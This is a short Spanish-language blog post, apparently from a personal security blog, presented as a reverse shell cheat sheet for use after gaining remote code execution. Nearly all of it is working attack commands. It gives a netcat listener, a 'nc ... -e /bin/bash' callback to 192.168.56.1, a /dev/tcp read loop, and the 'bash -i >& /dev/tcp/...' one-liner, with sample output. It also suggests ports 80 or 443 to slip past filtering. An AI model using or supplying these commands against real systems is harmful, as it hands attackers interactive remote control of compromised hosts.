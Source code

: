 ```yaml
---
layout: post
title:  Reverse shells
excerpt: Reverse shell cheat sheet
date:   2016-12-11
image:
  feature: pexels-photo-2.jpeg
categories: blog
---
```

Situación: encontrado un método de RCE pero sin posibilidad de acceso a la shell. Solución: _bind_ de la shell a un puerto TCP.

## netcat

Esto ya lo vimos hace tiempo en este [articulo]. Lo que ocurre es que:

* nc/netcat no siempre estará disponible
* si lo está, es posible que no tenga la opción `-e`

En ese caso, puedo ponerme a escuchar (en un puerto accesible al sistema de destino):

```shell
nc -l 8080
```

Y en destino:

```shell
nc 192.168.56.1 8080 -e /bin/bash
```
Ya podemos ejecutar comandos en el sistema remoto cómodamente sentados frente a nuestra máquina:

```shell
user@mihost:~$ nc -l 8080
hostname
vmjessie
```

La máquina objeto de la ejecución de la shell inicia una conexión hacia el puerto de escucha (8080 en el ejemplo). Por eso es necesario elegir un puerto accesible, no filtrado; una elección segura serían los puertos 80 o 443.

## bash

En este caso no vamos a usar `nc` en el equipo objetivo, sino un descriptor asociado a un socket donde vamos a enviar las salidas de la shell. Partimos de nuestro equipo (en el ejemplo, nuestra IP es 192.168.56.1), donde estamos escuchando (con `nc` o lo que sea, da igual) en un puerto accesible:

```shell
nc -vvv -l 8080
```

Y en el objetivo:

```shell
exec 5<>/dev/tcp/192.168.56.1/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Con esto, los comandos que tecleemos en nuestra máquina son ejecutados en la remota y la salida nos llega a nosotros:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
hostname
target
```

Mediante esta otra sintaxis:

```shell
user@target:~$ bash -i >& /dev/tcp/192.168.56.1/8080 0>&1
```

tenemos igualmente la consola en nuestra máquina, prompt incluido:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
user@target:~$ hostname
hostname
target
```

Si hay alguna razón para ejecutar la shell vía algún lenguaje de scripting (PHP, Perl, Python, Java, Ruby... ¡¡Gawk!!) [aquí] hay un montón de pruebas de concepto para entretenerse un rato.

[articulo]:/uso-de-netcat
[aquí]:https://highon.coffee/blog/reverse-shell-cheat-sheet/
